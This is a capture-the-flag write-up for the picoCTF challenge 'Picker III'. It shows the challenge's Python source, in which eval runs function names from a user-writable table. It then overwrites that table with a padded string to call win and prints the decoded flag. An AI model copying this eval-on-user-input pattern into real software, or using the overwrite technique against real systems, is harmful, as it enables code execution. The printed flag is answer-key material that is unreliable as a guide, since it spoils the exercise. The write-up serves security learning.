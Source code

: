 # Description
Can you figure out how this program works to get the flag?
Connect to the program with netcat:
$ nc saturn.picoctf.net 55290
The program's source code can be downloaded here.

# Provided
-[402-picker-III.py](.prov/402-picker-III.py)

# Progress
[Part I]([400]%20Picker%20I.md) and [Part II]([401]%20Picker%20II.md)

I start the same as in Part II by looking at the Code
~~~ python
while(USER_ALIVE):
  choice = input('==> ')
  if( choice == 'quit' or choice == 'exit' or choice == 'q' ):
    USER_ALIVE = False
  elif( choice == 'help' or choice == '?' ):
    help_text()
  elif( choice == 'reset' ):
    reset_table()
  elif( choice == '1' ):
    call_func(0)
  elif( choice == '2' ):
    call_func(1)
  elif( choice == '3' ):
    call_func(2)
  elif( choice == '4' ):
    call_func(3)
  else:
    print('Did not understand "'+choice+'" Have you tried "help"?')
~~~
That's way different... fine i will do it as in Part I
~~~
==> 
~~~
Only the arrow this time...
~~~
==> 
Did not understand "" Have you tried "help"?
==> help

This program fixes vulnerabilities in its predecessor by limiting what
functions can be called to a table of predefined functions. This still puts
the user in charge, but prevents them from calling undesirable subroutines.

* Enter 'quit' to quit the program.
* Enter 'help' for this text.
* Enter 'reset' to reset the table.
* Enter '1' to execute the first function in the table.
* Enter '2' to execute the second function in the table.
* Enter '3' to execute the third function in the table.
* Enter '4' to execute the fourth function in the table.

Here's the current table:

1: print_table
2: read_variable
3: write_variable
4: getRandomNumber
==>
~~~
That limits the options quite a bit.... Back to the code:
~~~python
def help_text():
  print(
  '''
This program fixes vulnerabilities in its predecessor by limiting what
functions can be called to a table of predefined functions. This still puts
the user in charge, but prevents them from calling undesirable subroutines.

* Enter 'quit' to quit the program.
* Enter 'help' for this text.
* Enter 'reset' to reset the table.
* Enter '1' to execute the first function in the table.
* Enter '2' to execute the second function in the table.
* Enter '3' to execute the third function in the table.
* Enter '4' to execute the fourth function in the table.

Here's the current table:
  '''
  )
  print_table()
~~~
This doesn't do shit
~~~python
def reset_table():
  global func_table

  # This table is formatted for easier viewing, but it is really one line
  func_table = \
'''\
print_table                     \
read_variable                   \
write_variable                  \
getRandomNumber                 \
'''
~~~
Neither does this....
~~~python
def call_func(n):
  """
  Calls the nth function in the function table.
  Arguments:
    n: The function to call. The first function is 0.
  """
  
  # Check table for viability
  if( not check_table() ):
    print(CORRUPT_MESSAGE)
    return
  
  # Check n
  if( n < 0 ):
    print('n cannot be less than 0. Aborting...')
    return
  elif( n >= FUNC_TABLE_SIZE ):
    print('n cannot be greater than or equal to the function table size of '+FUNC_TABLE_SIZE)
    return
  
  # Get function name from table
  func_name = get_func(n)
  
  # Run the function
  eval(func_name+'()')
~~~
This does tho...

So every legal n can call a function.... probably determined in `get_func(n)`
~~~python
def get_func(n):
  global func_table
  
  # Check table for viability
  if( not check_table() ):
    print(CORRUPT_MESSAGE)
    return
  
  # Get function name from table
  func_name = ''
  func_name_offset = n * FUNC_TABLE_ENTRY_SIZE
  for i in range(func_name_offset, func_name_offset+FUNC_TABLE_ENTRY_SIZE):
    if( func_table[i] == ' '):
      func_name = func_table[func_name_offset:i]
      break
  
  if( func_name == '' ):
    func_name = func_table[func_name_offset:func_name_offset+FUNC_TABLE_ENTRY_SIZE]
  
  return func_name
~~~
In short it calls a function from the `func_table`, which is a variable and variables can be edited
~~~
==> 3
Please enter variable name to write: func_table
Please enter new value of variable: "win"
==> 1
Table corrupted. Try entering 'reset' to fix it
~~~
OK it's not that simple. The only time times this messange can appear is here:
~~~ python
if( not check_table() ):
  print(CORRUPT_MESSAGE)
~~~
~~~python
def check_table():
  global func_table
  
  if( len(func_table) != FUNC_TABLE_ENTRY_SIZE * FUNC_TABLE_SIZE):
    return False
  
  return True
~~~
So... 4 entries 32 chars each....
editing the original could work
~~~
print_table                     \
read_variable                   \
write_variable                  \
win                             \
~~~
Now as one line:
~~~
"print_table                     read_variable                   write_variable                  win                             "
~~~
Let's see:
~~~
==> 3
Please enter variable name to write: func_table
Please enter new value of variable: "print_table                     read_variable                   write_variable                  win                             "
==> 4
0x70 0x69 0x63 0x6f 0x43 0x54 0x46 0x7b 0x37 0x68 0x31 0x35 0x5f 0x31 0x35 0x5f 0x77 0x68 0x34 0x37 0x5f 0x77 0x33 0x5f 0x67 0x33 0x37 0x5f 0x77 0x31 0x37 0x68 0x5f 0x75 0x35 0x33 0x72 0x35 0x5f 0x31 0x6e 0x5f 0x63 0x68 0x34 0x72 0x67 0x33 0x5f 0x61 0x31 0x38 0x36 0x66 0x39 0x61 0x63 0x7d
~~~
works like a charm. Now the same decoding process with [Cyberchef](https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')&input=MHg3MCAweDY5IDB4NjMgMHg2ZiAweDQzIDB4NTQgMHg0NiAweDdiIDB4MzcgMHg2OCAweDMxIDB4MzUgMHg1ZiAweDMxIDB4MzUgMHg1ZiAweDc3IDB4NjggMHgzNCAweDM3IDB4NWYgMHg3NyAweDMzIDB4NWYgMHg2NyAweDMzIDB4MzcgMHg1ZiAweDc3IDB4MzEgMHgzNyAweDY4IDB4NWYgMHg3NSAweDM1IDB4MzMgMHg3MiAweDM1IDB4NWYgMHgzMSAweDZlIDB4NWYgMHg2MyAweDY4IDB4MzQgMHg3MiAweDY3IDB4MzMgMHg1ZiAweDYxIDB4MzEgMHgzOCAweDM2IDB4NjYgMHgzOSAweDYxIDB4NjMgMHg3ZA) in Part I:
~~~
picoCTF{7h15_15_wh47_w3_g37_w17h_u53r5_1n_ch4rg3_a186f9ac}
~~~
